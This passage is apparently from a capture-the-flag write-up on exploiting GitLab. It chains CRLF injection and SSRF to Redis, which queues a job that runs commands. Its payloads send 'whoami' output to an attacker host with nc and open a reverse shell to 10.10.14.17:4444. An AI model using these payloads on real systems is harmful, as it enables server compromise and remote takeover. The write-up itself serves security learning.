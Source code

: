 <img src="CRLF1.png" style="filter: drop-shadow(0 0 0.75rem crimson);">

This vulnerability will come handy later on by adding newlines to our payload and that's by chaining both of these vulnerabilities in order to get an RCE.

So now we understood what will be causing the RCE, we can dive in and get our shell!

We'll be using the payload mentioned here: https://hackerone.com/reports/299473 


```

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc <ip> 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec

```

Now let's chain both the two previous vulnerabilities.

> Before throwing a reverse shell, ping your machine first to confirm that we have code exec on the machine. for the sake of the writeup i'll be getting directly a reverse shell

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc 10.10.14.17 4444 -e /bin/bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/elleuch.git
```
We URL encode our payload
